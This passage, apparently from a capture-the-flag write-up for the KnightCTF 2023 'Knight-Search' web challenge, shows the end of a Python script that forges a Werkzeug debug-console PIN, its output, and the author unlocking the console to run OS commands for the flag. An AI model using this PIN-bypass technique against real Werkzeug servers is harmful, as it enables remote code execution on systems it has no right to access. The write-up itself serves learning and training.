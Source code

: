 ```py
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

```shell
┌[root♥siunam]-(~/ctf/KnightCTF-2023/Web/Knight-Search)-[2023.01.21|17:29:44(HKT)]
└> python3 solve.py
695-086-043
```

Let's try this PIN code!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121173148.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121173425.png)

We're finally in!!!

**Let's use OS command and get the flag:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KnightCTF-2023/images/Pasted%20image%2020230121173941.png)

- **Flag: `KCTF{n3v3r_run_y0ur_53rv3r_0n_d3bu6_m0d3}`**

# Conclusion

What we've learned:

1. Remote Code Execution (RCE) Via Werkzeug Debug Console & Bypassing Console PIN Code, Path Traversal Filter